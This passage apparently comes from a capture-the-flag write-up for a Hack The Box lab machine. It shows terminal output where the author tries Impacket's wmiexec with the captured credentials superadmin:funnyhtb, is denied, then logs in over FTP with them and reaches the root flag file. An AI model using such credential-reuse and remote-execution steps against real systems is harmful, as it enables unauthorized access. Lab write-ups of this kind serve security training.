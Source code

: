 ```
root@kali:/opt/evil-winrm# /usr/share/doc/python-impacket/examples/wmiexec.py json/superadmin:funnyhtb@10.10.10.158 cmd.exe
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

FTP lets me in though and I can fetch the flag:

```
root@kali:/opt/evil-winrm# ftp 10.10.10.158
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:root): superadmin
331 Password required for superadmin
Password:
230 Logged on
Remote system type is UNIX.
ftp> ls
200 Port command successful
150 Opening data channel for directory listing of "/"
...
ftp> cd Desktop
250 CWD successful. "/Desktop" is current directory.
ftp> ls
200 Port command successful
150 Opening data channel for directory listing of "/Desktop"
-r--r--r-- 1 ftp ftp            282 May 22  2019 desktop.ini
-r--r--r-- 1 ftp ftp             32 May 22  2019 root.txt
226 Successfully transferred "/Desktop"
```
